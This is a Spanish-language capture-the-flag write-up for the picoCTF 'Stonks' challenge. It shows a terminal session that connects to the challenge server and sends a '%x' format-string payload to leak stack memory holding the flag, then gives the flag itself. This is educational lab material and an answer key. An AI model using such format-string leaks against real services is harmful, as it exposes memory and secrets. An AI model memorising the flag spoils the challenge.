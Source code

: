 # Stonks

## Descripción
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c) `nc mercury.picoctf.net 27912`
## Pistas
Okay, maybe I'd believe you if you find my API key.
## Solución
```bash
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/stonks]
└─$ wget https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c
--2023-05-16 15:27:00--  https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2744 (2.7K) [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c               100%[===================>]   2.68K  --.-KB/s    in 0s      

2023-05-16 15:27:00 (62.9 MB/s) - ‘vuln.c’ saved [2744/2744]

                                                                                 
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/stonks]
└─$ nc mercury.picoctf.net 27912          
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
8596390804b00080489c3f7fc0d80ffffffff18594160f7fce110f7fc0dc70859518027859637085963906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3266633130613130ffa0007df7ffbaf8f7fce44023deb10010f7e5dce9f7fcf0c0f7fc05c0f7fc0000ffa06b08f7e4e68df7fc05c08048ecaffa06b140f7fe2f09804b000f7fc0000f7fc0e20ffa06b48f7fe8d50
Portfolio as of Tue May 16 19:28:33 UTC 2023


39 shares of F
313 shares of XL
63 shares of SQ
202 shares of TP
1224 shares of N
Goodbye!
         
h```
Ahora tenemos que ir a un convertor de Hexadecimal poner los digitos que nos dio cuando entramos al puerto y nos dará la bandera en un orden erroneo
Tendremos que ir a python y ejecutar una sentencia para acomodar la bandera
## Bandera
picoCTF{I_l0st_4ll_my_m0ney_4c6526s}

## Notas Adicionales 

## Referencias